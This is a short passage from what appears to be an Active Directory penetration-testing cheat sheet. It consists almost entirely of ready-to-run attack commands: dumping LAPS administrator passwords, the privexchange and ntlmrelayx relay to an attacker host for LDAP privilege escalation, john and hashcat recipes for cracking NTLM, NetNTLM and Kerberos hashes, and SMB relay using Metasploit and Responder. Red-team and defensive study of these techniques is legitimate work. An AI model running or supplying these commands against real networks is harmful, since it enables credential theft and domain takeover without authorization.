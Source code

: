 ### GPO Delegation

### get laps passwords

- Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
- foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}

### privexchange

- python privexchange.py -ah <attacker_host_or_ip> <exchange_host> -u <user> -d <domain> -p <password>

	- ntlmrelayx.py -t ldap://<dc_fqdn>--escalate-user <user>


### Hash cracking 

- LM

	- john --format=lm hash.txt
	- hashcat -m 3000 -a 3 hash.txt

- NTLM

	- john --format=nt hash.txt
	- hashcat -m 1000 -a 3 hash.txt

- NTLMv1

	- john --format=netntlm hash.txt
	- hashcat -m 5500 -a 3 hash.txt

- NTLMv2

	- john --format=netntlmv2 hash.txt
	- hashcat -m 5600 -a 0 hash.txt rockyou.txt

- Kerberos 5 TGS

	- john spn.txt --format=krb5tgs --wordlist=rockyou.txt
	- hashcat -m 13100 -a 0 spn.txt rockyou.txt

- Kerberos ASREP

	- hashcat -m 18200 -a 0 AS-REP_roast-hashes rockyou.txt

## relay

### MS08-068

- use exploit/windows/smb/smb_relay #windows200 / windows server2008

### responder -I eth0 # disable smb & http

- ntlmrelayx.py -tf targets.txt 
